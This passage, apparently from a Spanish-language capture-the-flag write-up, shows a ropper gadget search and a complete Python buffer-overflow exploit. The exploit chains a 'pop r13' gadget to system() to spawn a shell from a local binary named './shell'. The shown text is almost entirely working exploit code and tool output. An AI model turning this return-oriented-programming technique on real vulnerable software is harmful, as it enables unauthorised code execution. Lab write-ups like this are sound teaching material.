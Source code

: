 ```css
❯ ropper -f ./shell  --search "pop r13"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r13

[INFO] File: ./shell
0x000000000040149d: pop r13; ret; 

❯ 
```

como vemos, la dirección de el gadget seria `0x40149d`, por lo que ya tendriamos el exploit completo:

```python
import subprocess
import struct


def p64(num):
    return struct.pack("<Q", num)        



def exploit():




  binario = ["./shell"]

  offset = 128
  junk = b"A"*offset
  RIP = b"B"*6
  


  pop_r13 = p64(0x40149d)
  _x2 = p64(0x4014a3)
  system = p64(0x401040)
  tmp_shell = b"/tmp/sh\x00"
  

  payload = junk + tmp_shell + pop_r13  + system + _x2




  p = subprocess.Popen(
          binario, stdin=subprocess.PIPE
  )
  p.stdin.write(payload + b"\n")
  p.stdin.flush()

  p.wait()



if __name__ == '__main__':
    exploit()
```
